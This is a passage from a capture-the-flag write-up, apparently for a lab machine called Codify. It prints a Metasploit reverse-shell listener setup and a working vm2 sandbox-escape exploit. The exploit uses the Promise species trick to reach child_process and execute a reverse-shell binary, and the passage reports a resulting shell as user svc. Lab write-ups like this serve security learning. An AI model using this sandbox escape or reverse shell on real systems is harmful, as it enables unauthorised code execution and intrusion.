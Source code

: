 Now to get our first shell, first setup a listener
``` bash
$ msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 1337
set ExitOnSession false
run
``` 

Run the reverse shell file through the code editor
``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('./reverse.elf'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));

```

And we get our first shell on the machine, as the user svc
![](Codify/session1.png)
![](Codify/svc.png)
